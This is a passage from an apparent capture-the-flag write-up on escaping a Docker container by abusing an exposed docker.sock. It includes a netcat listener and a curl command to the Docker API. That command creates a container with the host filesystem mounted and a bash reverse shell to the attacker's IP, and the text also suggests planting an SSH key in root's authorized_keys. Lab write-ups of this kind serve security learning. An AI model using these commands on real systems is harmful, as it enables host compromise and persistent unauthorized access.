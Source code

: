 When we Google `docker.sock` we are brought to [this page](https://medium.com/better-programming/about-var-run-docker-sock-3bfd276e12fd) where we learn that docker.sock is a Unix socket that the Docker daemon listens on by default. This allows the Docker service and its API to be accessible from within a container. The significance of this is that we have access to it and we may be able to use it as a way to break out of the container.

When searching for `docker.sock exploits` we find [this page](https://dejandayoff.com/the-danger-of-exposing-docker.sock/) and [this page](https://securityboulevard.com/2019/02/abusing-docker-api-socket/) that both show multiple ways to manually abuse this.

We also find that there is a [Golang program called](https://github.com/brompwnie/ed) `ed` that can identify exposed Unix sockets, and then attempt to auto exploit them to get a shell on the host. However, after compiling it and attempting to use it on this container, it was only able to confirm that the socket is valid, and could not auto exploit it.

We are going to try to exploit this manually. Based on the articles listed above, we may be able to create a new instance of a container, giving it escalated privilege and mounting the host file system to it. We can then run commands against the new container instance, and the host file system. Being able to do this should allow us to access the root flag, and even get a shell on the host system by injecting a public ssh key into the host root account's authorized_keys and then connecting to the host over SSH. This may all seem complicating at the moment, but we will get through it!

>**NOTE:** If you're like me and new to the Docker Engine API, you may need to spend some time in their [documentation](https://docs.docker.com/engine/api/v1.24/) to completely understand what we will be doing here.

First, let's start a new netcat listener on port 9002 from our attacking machine.

``` bash
nc -lvnp 9002
```

This listener will catch a shell request that will be made when we start the container that we are going to create. 

We know based on the JSON that returned in the results above that there is an image name `sandbox`. And so, we can create a container pointing to that image. We can also attach the hosts file system and then also force the machine start to send a reverse shell request to our listener. We can create a container named `idiot` by running the following command in our current container shell.

>**NOTE:** This is a long and terrible command, I know. But read it carefully and replace the `<YOUR TUNNEL IP>` with your VPN IP. You can also change the name of the container if you would prefer. 

``` bash
curl -s -X POST --unix-socket /var/run/docker.sock -d "{ \"Image\": \"sandbox\", \"cmd\": [\"/bin/sh\",\"-c\",\"chroot /tmp sh -c \\\"bash -c 'bash -i >& /dev/tcp/<YOUR TUNNEL IP>/9002 0>&1'\\\"\"], \"Binds\": [\"/:/tmp:rw\"] }" -H 'Content-Type: application/json' http://localhost/containers/create?name=idiot
```

![](/assets/images/htb-feline/22_feline_docker_create.png)

This will result in a container named `idiot`. Now with our listener running on port 9002 we just need to run the following command to start the new container.
